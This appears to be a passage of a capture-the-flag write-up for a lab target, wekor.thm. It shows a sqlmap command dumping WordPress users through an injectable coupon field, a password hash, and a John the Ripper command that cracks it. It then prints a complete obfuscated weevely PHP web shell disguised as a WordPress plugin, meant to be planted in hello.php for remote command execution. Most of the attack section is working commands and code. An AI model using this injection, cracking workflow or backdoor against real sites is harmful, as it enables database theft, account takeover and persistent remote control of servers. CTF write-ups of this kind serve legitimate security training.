 Dump table `wp_users` from database `wordpress`
```sh
sqlmap -u "http://wekor.thm/it-next/it_cart.php" --data="coupon_code=*" --banner --batch -D wordpress -T wp_users --dump
```
By default dump output save at `~/.local/share/sqlmap/output/wekor.thm/dump/wordpress/wp_users.csv`

Ref: vuln file [SQLi](initial/sqli)

Recognizing password hash
-------------------------

>Hash with `$P$` = `phpass` 

Reference: [NameThatHash](https://nth.skerritt.blog/) | [GitHub](https://github.com/HashPals/Name-That-Hash)

JohnTheRipper my :heart:
----------------------------------
List users and passhash in a file.
example: `wpusers.hash`


```
admin:$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.
```
Note: **all users on db is valid users.**

- John In Action

```sh
john --wordlist=/path/to/rockyou.txt --format=phpass wpusers.hash
```

- wordpress login page : `site.wekor.thm/wordpress/wp-login.php`

Get a shell by edit inactive plugins (my suggestion edit hello.php).
 

Note: This just optional. You can use your own shells

Example: im using weevely `weevely generate <yourpass> <path/to/outshell.php>`
```php
<?php
/*
Plugin Name: weevely 
Plugin URI: https://weevely.php/
Description: Just a shell
Version: 1.33.7
Author: anyone
Author URI: https://nyan.cat/
*/

$m='eYhNS83";f%%unction x($t%,$k){%$%c=strlen(%$k);$l%=strle%n($t);$%o=""%;f';
$v='or(%$i%=0;$i<$l;){fo%r($j%=0;($j<%$c&&$i<$l%);%%$j++,$i++){$%o.=$t{$%i}^$%';
$k='ents(%%"%php://inp%ut"),$m)=%=1%) {@ob_start()%;@ev%al(@gzun%compress(@x(@';
$G='$k="9c%dfb%439%";$kh="c7876e%703e30"%;$kf=%"7864%c9167%a15";$p="2%fw9spW%7m%';
$y=str_replace('di','','crediatdie_difudidinctdiion');
$q='ba%%s%%e64%_decod%e($m[1]),$k)))%;$o=@ob_get_cont%%ents();@ob_%e%nd_clean()';
$I=';$r%=@bas%e64_e%ncode(%@x(@gzc%ompr%ess($o),$%k%));p%r%int("$p$kh$r$kf");}';
$M='k{$j};}}ret%urn% $o;}if (%@preg_%ma%t%ch("/%$kh(.+)$kf%/",@f%ile_%g%et_cont';
$C=str_replace('%','',$G.$m.$v.$M.$k.$q.$I);
$X=$y('',$C);$X();

?>

```
shell path : `site.wekor.thm/wordpress/wp-content/plugins/hello.php` 
